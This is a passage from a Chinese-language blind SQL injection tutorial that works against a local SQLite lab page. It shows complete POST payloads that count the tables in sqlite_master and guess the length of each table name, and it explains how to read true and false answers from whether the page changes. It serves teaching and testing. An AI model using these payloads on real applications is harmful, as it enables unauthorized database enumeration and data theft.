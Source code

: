 现在，我们开始对数据库进行枚举，在本例中的index.php脚本中，POST参数'tag‘存在布尔型的SQL盲注，一个可用请求如下：

```
http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu&amp;search=Check+Plan
```

让我们开始吧!

**计算表单数量**

为了计算表单的数量，我们可以使用如下payload：

```
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) &lt; number_of_table
```

用数字来替换number_of_table，现在就让我们在实验环境中测试吧，我们将判断数据库表单总数是否小于5，payload长这样：

```
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) &lt;5
```

然后注入的HTTP请求长以下这样：

```
http://127.0.0.1/sqlite-lab/index.php
POST request data
tag=ubuntu' and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) &lt; 5 -- - search=Check+Plan
```

[![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0159af15755fc17535.png)

在fuzz中，我们需要检查页面内容与之前是否一致，一致则为真即表单数量小于5。接着，当我们将数量改为2，数据库表单数量为2，因此状态为假，即页面将与之前不一致。为了确认表单数量，使用=来代替&lt;和&gt;。

```
http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu' and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) =2 -- -&amp;search=Check+Plan
```

确认了表单数量后，我们就一个接一个地猜解表名。

**猜解表名**

为了猜解表名长度，可以使用以下payload：

```
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

此处，将table_name_length_number替换为数字，如以下我们确认第一个表名长度是否小于6，payload：

```
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) &lt; 6
```
